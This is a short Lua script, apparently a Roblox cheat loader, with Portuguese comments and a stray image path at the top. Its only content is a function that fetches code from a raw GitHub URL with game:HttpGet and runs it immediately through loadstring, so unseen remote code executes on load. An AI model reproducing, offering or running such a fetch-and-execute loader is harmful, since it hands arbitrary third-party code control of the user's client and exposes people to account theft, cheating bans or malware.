 -- Função para executar automaticamente o código fornecido
local function AutoExecute()
  loadstring(game:HttpGet("https://raw.githubusercontent.com/Xtentacion178/Iys/main/Dbbd"))()
end

-- Chama a função para executar automaticamente o código
AutoExecute()

-- End Script
